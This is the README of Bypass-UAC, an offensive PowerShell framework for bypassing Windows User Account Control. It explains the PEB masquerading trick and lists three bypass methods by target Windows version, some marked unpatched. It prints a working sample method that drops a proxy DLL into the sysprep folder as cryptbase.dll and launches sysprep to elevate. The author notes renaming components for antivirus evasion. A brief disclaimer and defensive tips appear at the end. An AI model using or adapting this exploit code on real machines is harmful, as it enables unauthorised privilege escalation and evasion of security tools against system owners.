 # Bypass-UAC
Bypass-UAC provides a framework to perform UAC bypasses based on auto elevating IFileOperation COM object method calls. This is not a new technique, traditionally, this is accomplished by injecting a DLL into "explorer.exe". This is not desirable because injecting into explorer may trigger security alerts and working with unmanaged DLL's makes for an inflexible work-flow.

To get around this, Bypass-UAC implements a function which rewrites PowerShell's PEB to give it the appearance of "explorer.exe". This provides the same effect because COM objects exclusively rely on Windows's Process Status API (PSAPI) which reads the process PEB.

# Usage

Bypass-UAC is self-contained and does not have any dependencies, bar a requirement that the target have PowerShell v2.

#### Methods

* UacMethodSysprep: Original technique by Leo Davidson (sysprep -> cryptbase.dll)
  * Targets: x32/x64 Windows 7 & 8
* ucmDismMethod: Hybrid method (PkgMgr -> DISM -> dismcore.dll)
  * Targets: x64 Win7+ (currently unpatched)
* UacMethodMMC2: Hybrid method (mmc -> rsop.msc -> wbemcomn.dll)
  * Targets: x64 Win7+ (currently unpatched)

#### Sample Output

**Win 7 Pro**

![UacMethodSysprep](images/Win7-32.png)

**Win 8 Enterprise**

![ucmDismMethod](images/Win8.1-64.png)

# Components

#### PSReflect

By [@mattifestation](https://twitter.com/mattifestation), allows you to easily define in-memory enums, structs, and Win32 functions. This is necessary because it allows PowerShell to use the Windows API without compiling c# at runtime. Doing that is ok most of the time but it writes temporary files to disk and won't work if csc is blacklisted.

#### Masquerade-PEB

A modified version of [Masquerade-PEB](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Masquerade-PEB.ps1), changed to use PSReflect. This function overwrites PowerShell's PEB to impersonate "explorer.exe".

#### Invoke-IFileOperation

Load a .NET dll into memory which exposes an IFileOperation COM object interface to PowerShell. This is based on work done by Stephen Toub, published in the December 2007 MSDN magazine (I added the pages in the [images](images) folder for reference). Further details available in the [FileOperations](FileOperations) folder.

```
PS C:\Users\b33f> $IFileOperation |Get-Member
 
    TypeName: FileOperation.FileOperation
 
 Name              MemberType Definition
 ----              ---------- ----------
 CopyItem          Method     void CopyItem(string source, string destination, string newName)
 DeleteItem        Method     void DeleteItem(string source)
 Dispose           Method     void Dispose(), void IDisposable.Dispose()
 Equals            Method     bool Equals(System.Object obj)
 GetHashCode       Method     int GetHashCode()
 GetType           Method     type GetType()
 MoveItem          Method     void MoveItem(string source, string destination, string newName)
 NewItem           Method     void NewItem(string folderName, string name, System.IO.FileAttributes attrs)
 PerformOperations Method     void PerformOperations()
 RenameItem        Method     void RenameItem(string source, string newName)
 ToString          Method     string ToString()
```

#### Emit-Yamabiko

Bootstrap function which writes an x32/x64 bit proxy dll to disk (Yamabiko). This dll is based on [fubuki](https://github.com/hfiref0x/UACME/tree/master/Source/Fubuki) from [@hfiref0x](https://twitter.com/hfiref0x)'s UACME project. Mostly I stripped out the redundant functionality and did some minor renaming for AV evasion. Further details available in the [Yamabiko](Yamabiko) folder.

# Contributing

Currently there are two methods in Bypass-UAC, I will add more gradually but it would be awesome if people want to contribute. It is really easy to add a new method, provided you need an elevated file copy/move/rename or folder creation. A sample method can be seen below for reference.

```powershell
'UacMethodSysprep'
{
    # Original Leo Davidson sysprep method
    # Works on everything pre 8.1
    if ($OSMajorMinor -ge 6.3) {
        echo "[!] Your OS does not support this method!`n"
        Return
    }

    # Impersonate explorer.exe
    echo "`n[!] Impersonating explorer.exe!"
    Masquerade-PEB -BinPath "C:\Windows\explorer.exe"

    if ($DllPath) {
        echo "[>] Using custom proxy dll.."
        echo "[+] Dll path: $DllPath"
    } else {
        # Write Yamabiko.dll to disk
        echo "[>] Dropping proxy dll.."
        Emit-Yamabiko
    }

    # Expose IFileOperation COM object
    Invoke-IFileOperation

    # Exploit logic
    echo "[>] Performing elevated IFileOperation::MoveItem operation.."
    $IFileOperation.MoveItem($DllPath, $($env:SystemRoot + '\System32\sysprep\'), "cryptbase.dll")
    $IFileOperation.PerformOperations()
    echo "`n[?] Executing sysprep.."
    IEX $($env:SystemRoot + '\System32\sysprep\sysprep.exe')

    # Clean-up
    echo "[!] UAC artifact: $($env:SystemRoot + '\System32\sysprep\cryptbase.dll')`n"
}
```

Similarly, using [EXPORTSTOC++](http://sourcesecure.net/tools/exportstoc/) you can easily copy/paste exports into Yamabiko to target new binaries!

# Disclaimer

This project is for authorized use only, that goes without saying, I don't take responsibility for foolish people doing bad things!

#### Protect Yourself

* Don't provide users with local Administrator rights.
* Change the default UAC setting to "Always notify me and wait for my response" & require users to enter their password.
* Remember Microsoft's official position is that UAC is not a security feature!

# References

* UACME
  * https://github.com/hfiref0x/UACME
* Windows 7 UAC whitelist
  * http://www.pretentiousname.com/misc/win7_uac_whitelist2.html
* Malicious Application Compatibility Shims
  * https://www.blackhat.com/docs/eu-15/materials/eu-15-Pierce-Defending-Against-Malicious-Application-Compatibility-Shims-wp.pdf
* KernelMode UACMe thread
  * http://www.kernelmode.info/forum/viewtopic.php?f=11&t=3643
* Syscan360, UAC security issues
  * https://www.syscan360.org/slides/2013_ZH_DeepThinkingTheUACSecurityIssues_Instruder.pdf
* Microsoft technet, Inside Windows 7 User Account Control
  * https://technet.microsoft.com/en-us/magazine/2009.07.uac.aspx
* Cobalt Strike, User Account Control – What Penetration Testers Should Know
  * http://blog.cobaltstrike.com/2014/03/20/user-account-control-what-penetration-testers-should-know/